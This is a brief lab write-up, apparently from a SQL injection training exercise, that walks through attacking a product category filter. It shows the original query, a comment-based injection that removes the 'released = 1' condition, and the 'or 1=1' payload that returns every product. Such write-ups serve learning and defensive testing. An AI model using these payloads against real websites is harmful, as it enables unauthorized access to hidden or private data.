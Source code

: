 # SQL injection - product category filter

The query to retrieve details of the products should be:   
`select * from products where category = 'Gifts' and released = 1`  
-> released = 1 is to hide the products that are not released.  
-> released = 0 is to present the unreleased products.  

Known that no defenses against SQL injection attacks, so we can use -- to comment the rest of the query:  
`select * from products where category = 'Gifts' -- ' and release = 1`  

To display all the products in any category:  
`select * from products where category = 'Gifts' or 1=1 -- ' and release = 1`
-> because 1 is always equal to 1, the query will return all items.
